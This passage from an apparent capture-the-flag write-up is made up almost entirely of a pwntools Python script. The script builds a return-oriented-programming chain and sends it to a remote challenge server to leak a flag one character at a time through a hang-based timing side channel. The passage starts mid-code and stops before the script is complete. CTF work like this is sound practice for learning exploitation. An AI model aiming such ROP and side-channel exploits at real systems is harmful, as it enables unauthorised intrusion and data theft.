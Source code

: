                 ...
            except:
                ...
            r.close()
        idx += 1
        flag += chr(guess)
    ```
* Whole exploit
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    flag_addr = 0x4de2e0
    pop_r14_ret = 0x402797
    mov_eax_dword_ptr_rax_ret = 0x4022ee
    cmp_al_r14b_ret = 0x438c15
    jne_0x426148_ret = 0x426159

    pop_rbx_ret = 0x401fa2
    jmp_rbx = 0x4176fd
    infinite_loop = p64(pop_rbx_ret) + p64(jmp_rbx) + p64(jmp_rbx)

    flag = ''
    idx = 0
    while idx < 53:
        guess = 0x20
        while guess < 0x80 :
            # r = process('./chal')
            r = remote('edu-ctf.zoolab.org', 10012)
            ROP = flat(
                pop_rax_ret, flag_addr+idx,
                mov_eax_dword_ptr_rax_ret,
                pop_r14_ret, guess,
                cmp_al_r14b_ret, 
                jne_0x426148_ret,
            )
            ROP += infinite_loop

            r.sendafter(b'rop\n',b'a'*0x28 + ROP)
            try :
                # If compare not correct, guess++ and access to infinity loop
                r.recv(timeout=0.5)
                break
            except:
                # If compare correct, pwntool will break out
                guess += 1
            r.close()
